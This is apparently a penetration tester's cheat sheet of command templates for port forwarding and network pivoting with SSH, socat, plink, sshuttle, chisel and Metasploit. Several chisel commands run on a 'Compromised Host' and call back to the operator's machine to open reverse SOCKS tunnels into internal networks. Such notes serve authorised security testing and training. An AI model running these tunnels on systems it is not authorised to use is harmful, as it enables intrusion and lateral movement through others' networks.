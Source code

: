 # Port Fowarding and Proxying
## Port Fowarding
### SSH Tunneling/Local Port Forwarding  
```bash
ssh user@<IP> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding
```bash
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<IP>
```

### Socat - Port Forward
```powershell
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 
-> Your machine  
```bash
./chisel server -p <listen_port> --reverse &
```

-> Compromised Host
```bash
./chisel client <client_port>:<client_port> R:<local_port>:<target_IP>:<target_port> &
```

### Chisel - Local Port Forward
-> Compromised Host  
```bash
./chisel server -p <listen_port>
```

-> Your Machine  
```bash
./chisel client <client_port>:<client_port> <local_port>:<target_IP>:<target_port>
```

### pklink - Remote Port Forward
```powershell
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting
### sshuttle (Unix) - proxying  
```
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```bash
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy
-> Your Machine  
```bash
./chisel server -p listen_port --reverse &
```
-> Compromised Host  
```bash
./chisel client <target_IP>:<listen_port> R:socks &
```

### chisel - Forward Proxy  
-> Compromised Host  
```bash
./chisel server -p <listen_port> --socks5
```
-> Your Machine  
```bash
./chisel client <target_P>:<listen_port> <proxy_port>:socks
```

### metasploit - proxying 
```bash
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```
